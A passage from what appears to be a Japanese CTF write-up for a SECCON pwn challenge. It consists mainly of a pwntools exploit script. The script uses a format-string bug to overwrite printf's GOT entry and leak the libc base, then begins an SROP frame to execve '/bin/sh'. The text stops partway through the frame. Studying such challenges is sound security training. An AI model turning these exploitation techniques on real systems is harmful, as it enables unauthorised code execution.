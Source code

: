 さて, あとはスタックに適当なpayloadを流せば良い. 今回は折角なのでSROPした.

```python
#!/usr/bin/env python3

import sys
from pwn import *
import time

# REMOTE = ("", 5000)
EXEC = "./chall"
if len(sys.argv) == 1:
    sock = process(EXEC)
    IS_REMOTE = False
    glibc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
    ret = 171368
    mod_rax = 0x0003fd21
else:
    assert sys.argv[1] == "remote"
    sock = remote("paragraph.seccon.games", 5000)
    IS_REMOTE = True
    glibc = ELF("./libc.so.6")
    ret = 172490
    mod_rax = 0x00045321

context.arch = "x86_64"
sock.debug = True

elf = ELF("./chall")
rop = ROP([glibc])

input("[;] Waiting...")

printf_addr = glibc.symbols["printf"]
scanf_addr = glibc.symbols["__isoc99_scanf"]
print(f"[!] printf: {hex(printf_addr)}")
print(f"[!] scanf: {hex(scanf_addr)}")
print(f"[!] ret: {hex(ret)}")

printf_got = elf.got["printf"]
print(f"[!] printf got: {hex(printf_got)}")

lower = scanf_addr % 0x1000 + 0x1000
print(f"[!] lower: {hex(lower)}")

payload = \
    f"%{lower}c".encode() \
    + b"%8$hn" \
    + b"%11$p"
payload += \
    b"A" * (0x10 - len(payload)) \
    + p64(printf_got)[0:6]

sock.sendlineafter(b".\n", payload)

sock.recvuntil(b"0x")
glibc.address = int(sock.recv(12), 16) - ret
print(f"[!] glibc base: {hex(glibc.address)}")

mod_rax = glibc.address + mod_rax
binsh = next(glibc.search(b"/bin/sh\x00"))

sigret_frame = SigreturnFrame()
sigret_frame.rax = constants.SYS_execve
```